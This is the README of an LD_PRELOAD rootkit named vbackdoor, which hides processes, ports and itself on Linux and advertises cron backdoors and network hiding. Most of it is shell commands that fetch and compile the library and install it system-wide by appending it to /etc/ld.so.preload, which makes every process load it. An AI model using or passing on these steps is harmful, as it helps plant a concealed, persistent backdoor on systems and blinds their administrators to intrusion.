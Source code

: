 # vbackdoor
[中文](https://github.com/veo/vbackdoor/blob/main/README_cn.md)

Hide a process,port,self under Linux using the linux LD_PRELOAD rootkit.

### compile the library

```
git clone https://github.com/veo/vbackdoor.git
cd vbackdoor
vi vbackdoor.c
make
sudo mv vbackdoor.so /usr/local/lib/
```

or

```
wget https://raw.githubusercontent.com/veo/vbackdoor/main/vbackdoor.c
vi vbackdoor.c
gcc -Wall -fPIC -shared -o vbackdoor.so vbackdoor.c -ldl
sudo mv vbackdoor.so /usr/local/lib/
```

### Load it with the global dynamic linker

```
echo /usr/local/lib/vbackdoor.so >> /etc/ld.so.preload
```




  * Process hiding
  * LD_PRELOAD hiding
  * Network hiding
  * cron Backdoors